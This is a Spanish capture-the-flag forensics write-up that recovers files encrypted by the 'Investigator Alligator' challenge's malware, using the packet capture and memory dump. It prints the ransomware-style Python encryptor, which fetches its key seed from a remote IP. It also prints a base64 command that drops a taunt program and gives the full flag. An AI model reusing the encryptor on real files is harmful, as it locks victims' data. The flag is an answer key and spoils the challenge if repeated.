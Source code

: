# Investigator Alligator (Iris CTF 2024 - Forensics)

## Challenge
JoSchmoTechCo's server got hit! The folder containing their super duper important company secrets is all locked up. Luckily, the sysadmin was smart enough to be capturing the network traffic and take a memory sample when the whole ordeal went down.

The victim user, in a flurry of blind panic, also typed something after the damage was already done. We have an image of the disk after the event. Can you recover their files and find out what the victim typed?

> Note: the malware contained is rather innocuous, but it's still a bad idea to run untrusted programs off the Internet. Please don't do that.

### Resource
Download option 1 - 
[investigator-alligator.gz](https://shawndxyz.sjc1.vultrobjects.com/ctf/2024.irisctf/investigator-alligator.gz)

Download Option 2 (Mirror) - 
[Mirror investigator-alligator.gz](https://cdn.2024.irisc.tf/investigator-alligator.gz)

**NOTA**: No se incluye el recurso en el repositorio debido a su tamaño.

```bash
ls -lah ./recurso
total 31G
drwxr-xr-x 2 jc jc 4,0K ene  7 12:51 .
drwxr-xr-x 3 jc jc 4,0K ene  7 12:51 ..
-rw-r--r-- 1 jc jc  25G ene  7 11:02 investigator-alligator
-rw-r--r-- 1 jc jc 6,4G ene  7 11:05 investigator-alligator.gz
``````

## Solve manual

### Primera parte de la flag

Extraemos el archivo investigator-alligator.gz:

```bash
7z x ./recurso/investigator-alligator.gz -o./recurso/
```

El archivo contiene datos formateados en el filesystem ext4:

```bash
file investigator-alligator
investigator-alligator: Linux rev 1.0 ext4 filesystem data, UUID=35fa8404-f9cc-45be-b6a5-22351ef2f486 (needs journal recovery) (extents) (64bit) (large files) (huge files)
```

Montamos el filesystem

```bash
sudo mkdir /mnt/investigator-alligator && sudo mount ./recurso/investigator-alligator /mnt/investigator-alligator
```

- En root/LiME/src/ encontramos sample.mem, el dump de memoria mencionado en la descripción del challenge.

- En root/capture encontramos network, la captura de tráfico de red mencionada en la descripción del challenge.

En /home/stephen se encuentra el archivo rswenc.py con el contenido:

```py
#!/usr/bin/env python3
import random
import socket
import sys
import time
f_if = sys.argv[1]
f_of = sys.argv[2]
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("149.28.14.135", 9281))
seed = s.recv(1024).strip()
s.close()
random.seed(seed)
with open(f_if, "rb") as f:
	data = f.read()
stream = random.randbytes(len(data))
encrypted = bytearray()
for i in range(len(data)):
	encrypted.append(data[i] ^ stream[i])
with open(f_of, "wb") as f:
	f.write(encrypted)
```

Este script utiliza una operación XOR para cifrar un archivo de entrada y guardar el resultado en un archivo de salida.

`s.connect(("149.28.14.135", 9281))`: Establece una conexión con el servidor en la dirección IP "149.28.14.135" y el puerto 9281. Luego recibe una semilla del servidor.

`random.seed(seed)`: Inicializa el generador de números pseudoaleatorios con la semilla recibida.

`for i in range(len(data)): encrypted.append(data[i] ^ stream[i])`: Realiza la operación XOR byte a byte entre el contenido del archivo de entrada y la secuencia de bytes aleatorios (stream), y guarda el resultado en el objeto bytearray.

Siendo una operación XOR, conociendo el valor recibido en seed, se podrá restaurar el archivo de entrada a su estado original.
Para conocer el valor seed, lo buscaremos en la captura.

```bash
tshark -r network -Y "tcp.port == 9281" -T fields -e data | xxd -r -p
```

![seed](./images/investigator-alligator-seed.png)

Creamos un script rwsdec.py con el mismo contenido que rwsenc.py, eliminando la conexión por sockets y  cambiando la linea `seed =` por `seed = "eng0jieh7ahga7eidae6taebohhaicaeraef5ahng8ohb2Tho3ahz7ojooXeixoh0thoolung7eingietai8hiechar6ahchohn6uwah2Keid5phoil7Oovool3Quai"`

Quedando de la siguiente forma:
`rwsdec.py`:

```bash
#!/usr/bin/env python3
import random
import sys

f_if = sys.argv[1]
f_of = sys.argv[2]

seed = "eng0jieh7ahga7eidae6taebohhaicaeraef5ahng8ohb2Tho3ahz7ojooXeixoh0thoolung7eingietai8hiechar6ahchohn6uwah2Keid5phoil7Oovool3Quai"

random.seed(seed)
with open(f_if, "rb") as f:
	data = f.read()
stream = random.randbytes(len(data))
decrypted = bytearray()
for i in range(len(data)):
	decrypted.append(data[i] ^ stream[i])
with open(f_of, "wb") as f:
	f.write(decrypted)
```

Lo colocamos en /home/stephen y ejecutamos `python rwsdec.py encrypted.img decrypted.img`

```bash
sudo mkdir /mnt/investigator-alligator-decrypted && sudo mount ./decrypted.img /mnt/investigator-alligator-decrypted 
```

![ls decrypted](./images/investigator-alligator-ls-decrypted.png)

Abrimos la imagen /mnt/investigator-alligator-decrypted/data/super_duper_important_info.png y encontramos la primera parte de la flag: `irisctf{y0ure_a_r3al_m4ster_det3`

### Segunda parte de la flag

En la descripción del challenge dice que el usuario escribió algo al ser hackeado. Por lo tanto buscaremos en el dump de memoria generado por [LiME ~ Linux Memory Extractor](https://github.com/504ensicsLabs/LiME).

Abrimos el archivo /root/LiMe/src/sample.mem en un editor de texto y en la línea 4062972 encontramos:

```bash
echo "I2luY2x1ZGUgPHN0ZGlvLmg+CiNpbmNsdWRlIDx1bmlzdGQuaD4KCmludCBtYWluKCkKewoJY2hhciBidWZmZXJbMTAyNF0gPSB7MH07CgoJcHV0cygiWU9VJ1ZFIEJFRU4gUFdORUQhIik7CglwdXRzKCJXSEFUIERPIFlPVSBTQVkgSU4gUkVTUE9OU0U/Iik7CglmZ2V0cyhidWZmZXIsIDEwMjQsIHN0ZGluKTsKCglwdXRzKCJNRUFOV0hJTEUsIFRIRSBQV05FUiBHT0VTIHp6ei4uLiIpOwoJc2xlZXAoOTk5OSk7Cn0K" | base64 -d > taunt.c
```

El código fuente del programa taunt.c, luego de usar base64 -d es:

```c
#include <stdio.h>
#include <unistd.h>

int main()
{
        char buffer[1024] = {0};

        puts("YOU'VE BEEN PWNED!");
        puts("WHAT DO YOU SAY IN RESPONSE?");
        fgets(buffer, 1024, stdin);

        puts("MEANWHILE, THE PWNER GOES zzz...");
        sleep(9999);
}
```

Ya que el programa muestra *"WHAT DO YOU SAY IN RESPONSE?"* buscamos este texto, y en la línea 867206 encontramos que tal como lo indicaba el challenge, el usuario escribió:

```
YOU'VE BEEN PWNED!
WHAT DO YOU SAY IN RESPONSE?
ctive_ty_f0r_s4v1ng_0ur_d4ta}
MEANWHILE, THE PWNER GOES zzz...
```

Se encontró la segunda parte de la flag: `ctive_ty_f0r_s4v1ng_0ur_d4ta}`. Por lo tanto ya conseguimos la flag completa!


### Flag
Flag: `irisctf{y0ure_a_r3al_m4ster_det3ctive_ty_f0r_s4v1ng_0ur_d4ta}`

![Solved](./images/investigator-alligator-solved.png)

## Solve utilizando solve.py
El script requiere múltiples packages. La instalación de requerimientos se realiza con el siguiente comando:

```bash
pip install -r requirements.txt
```

Se deberá ejecutar el siguiente comando:

```bash
python solve.py
```

Mostrará en el output la segunda parte de la flag y el path de la imagen que deberá ser visualizada para obtener la primera parte de la flag.

> Nota: el script descargará el recurso en caso de no estar en ./recurso.

![Solved using python script](./images/investigator-alligator-python-solve.png)